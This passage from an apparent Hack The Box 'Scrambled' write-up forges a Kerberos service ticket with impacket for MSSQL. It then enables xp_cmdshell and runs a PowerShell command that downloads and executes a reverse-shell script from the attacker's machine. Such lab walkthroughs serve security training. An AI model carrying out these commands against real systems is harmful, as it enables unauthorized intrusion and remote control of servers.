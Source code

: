 Our next step is to connect to the MSSQL. But we have to generate a ticket for the service, we can use impacket's `ticketer.py` script. But we have to get a Domain SID to do it. And there is impacket again with `getPac.py` script.

```bash
getPac.py -targetUser sqlsvc scrm.local/sqlsvc:<sqlsvc password>
```

![Domain SID](/assets/hackthebox/scrambled/domain_sid.png)

Now we can get a TGS to MSSQL server as a sqlsvc user. We nedd a NTLM hash and domain SID to generate it.

```bash
ticketer.py -spn MSSQLSvc/dc1.scrm.local -nthash <sqlsvc NTLM hash> -domain-sid S-1-5-21-2743207045-1827831105-2542523200 -domain scrm.local sqlsvc
export KRB5CCNAME=sqlsvc.ccache
```

Now we can connect to the MSSQL server. We will use impacket's `mssqlclient.py` here.

```bash
mssqlclient.py scrm.local/sqlsvc@dc1.scrm.local -no-pass -k
```

![MSSQLclient.py](/assets/hackthebox/scrambled/mssqlclient.png)

It is designed to get a `Remote Code Execution` (RCE) on the server. So our next step is to get a reverse shell. I've made a payload in .ps1 file on my local machine. So the reverse shell will be downloaded from my machine and executed. I've chosen a PowerShell #3 (Base64) payload from [Reverse Shell Generator](https://www.revshells.com/). We have to save it to file.

```bash
enable_xp_cmdshell
xp_cmdshell powershell IEX(New-Object Net.webclient).downloadString(\"http://<IP>:<PORT>/shell.ps1\")
```

![Got sqlsvc reverse shell](/assets/hackthebox/scrambled/got_sqlsvc.png)
